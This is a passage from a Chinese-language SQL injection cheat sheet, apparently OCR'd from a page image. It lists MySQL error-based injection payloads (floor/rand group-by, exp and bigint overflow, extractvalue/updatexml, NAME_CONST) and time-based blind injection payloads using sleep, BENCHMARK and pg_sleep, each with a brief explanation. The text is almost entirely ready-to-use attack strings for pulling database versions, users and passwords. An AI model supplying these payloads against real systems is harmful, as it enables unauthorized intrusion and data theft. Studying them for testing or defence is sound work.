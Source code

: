 如果关键的表被禁用了，可以使用这种形式

 select count(\*) from (select 1 union select null union

select !1) group by concat(version(),floor(rand(0)\*2))

如果rand被禁用了可以使用用户变量来报错

 select min(@a:=1) from information\_schema.tables group by concat(password,@a:=(@a+1)%2)

▲select exp(~(select \* FROM(SELECT USER())a)) //double数值类型超出范围

 //Exp()为以e为底的对数函数；版本在5.5.5及其以上

可以参考exp报错文章：[http://www.cnblogs.com/lcamry/articles/5509124.html](http://www.cnblogs.com/lcamry/articles/5509124.html)

▲select !(select \* from (select user())x) -（ps:这是减号） ~0

 //bigint超出范围；~0是对0逐位取反，很大的版本在5.5.5及其以上

可以参考文章bigint溢出文章[http://www.cnblogs.com/lcamry/articles/5509112.html](http://www.cnblogs.com/lcamry/articles/5509112.html)

▲extractvalue(1,concat(0x7e,(select @@version),0x7e)) se//mysql对xml数据进行查询和修改的xpath函数，xpath语法错误

▲updatexml(1,concat(0x7e,(select @@version),0x7e),1) //mysql对xml数据进行查询和修改的xpath函数，xpath语法错误

▲select \* from (select NAME\_CONST(version(),1),NAME\_CONST(version(),1))x;

//mysql重复特性，此处重复了version，所以报错。

## **3:基于时间的SQL盲注----------延时注入**

▲If(ascii(substr(database(),1,1))>115,0,sleep(5))%23 //if判断语句，条件为假，执行sleep

    Ps：遇到以下这种利用sleep()延时注入语句
    			

    select sleep(find_in_set(mid(@@version, 1, 1), '0,1,2,3,4,5,6,7,8,9,.'));
    

    该语句意思是在0-9之间找版本号的第一位。但是在我们实际渗透过程中，这种用法是不可取的，因为时间会有网速等其他因素的影响，所以会影响结果的判断。
    

▲UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) FROM (select database() as current) as tb1;

 //BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()

函数进行注入。

此处配置一张《白帽子讲安全》图片

  

Mysql

BENCHMARK(100000,MD5(1)) or sleep(5)

Postgresql

PG\_SLEEP(5) OR GENERATE\_SERIES(1,10000)
